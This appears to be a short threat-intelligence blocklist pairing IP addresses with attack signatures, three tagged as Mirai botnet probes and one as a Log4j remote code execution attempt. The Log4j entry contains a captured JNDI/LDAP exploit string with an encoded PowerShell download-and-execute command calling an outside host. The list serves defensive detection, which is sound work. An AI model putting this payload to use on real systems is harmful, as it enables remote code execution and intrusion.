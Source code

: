 181.219.149.148	#backdoor: Mirai.Botnet | Origin:Brazil | Signature:/spywall/timeConfig.php /n
18.119.59.84	#Apache.Log4j.Error.Log.Remote.Code.Execution | Origin:USA | Signature:/?id=%24%7Bjndi%3Aldap%3A%2F%2F218.24.200.243%3A8066%2FTomcatBypass%2FCommand%2FBase64%2FcG93ZXJzaGVsbCAtZW5jIFNRQkZBRmdBSUFBb0FFNEFaUUIzQUMwQVR3QmlBR29BWlFCakFIUUFJQUJUQUhrQWN3QjBBR1VBYlFBdUFFNEFaUUIwQUM0QVZ3QmxBR0lBWXdCc0FHa0FaUUJ1QUhRQUtRQXVBRVFBYndCM0F /n
91.125.213.1	#backdoor: Mirai.Botnet | Origin:UK | Signature:/spywall/timeConfig.php /n
107.173.159.85	#backdoor: Mirai.Botnet | Origin:USA | Signature:/spywall/timeConfig.php /n

